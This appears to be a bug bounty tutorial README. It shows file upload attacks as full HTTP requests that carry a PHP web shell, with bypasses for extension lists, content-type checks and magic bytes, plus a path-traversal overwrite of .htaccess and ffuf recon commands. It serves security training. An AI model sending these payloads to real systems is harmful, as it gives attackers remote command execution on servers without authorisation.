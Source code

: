 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2. **Exploiting simple file upload vulnerabilities**
   *   No restrictions

       ```http
       POST /Api/FileUpload.aspx HTTP/2
       Host: console.example.com
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
       Accept: */*

       ------WebKitFormBoundary3RwPFJztxaJvrqAq
       Content-Disposition: form-data; name="file"; filename="shell.php"
       Content-Type: application/x-php

       <?php echo system($_GET['e']); ?>
       ------WebKitFormBoundary3RwPFJztxaJvrqAq--
       ```
   * Bypassing client-side restrictions
     *   HTML "accept" attribute

         ```html
         <input type="file" accept=".jpg, .jpeg, .png, .gif" />
         ```
     * using proxy interceptors
   *   Bypassing a file extension blacklist

       <p align="center"><img src="broken-reference" alt="" data-size="original"><br><sub><strong>Bypass file extension exclusion lists</strong></sub></p>
   *   Bypassing a file extension whitelist

       <p align="center"><img src="broken-reference" alt=""><br><sub><strong>Bypass file extension inclusion lists</strong></sub></p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3.  **Exploiting advanced file upload vulnerabilities**

    * Bypassing content type restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: image/png

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    *   Magic bytes

        * These are the magic bytes for a normal image (PNG) in HEX:

        ```sh
        89 50 4E 47 0D 0A 1A 0A
        ```



        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="shell.php"
        Content-Type: application/x-php

        ‰PNG␍␊␚␊
        <?php echo system($_GET['e']); ?>
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

        <p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>
    *   Overwriting server configuration files

        * .htaccess

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
        Content-Type: text/plain

        # Your server configuraton rules
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
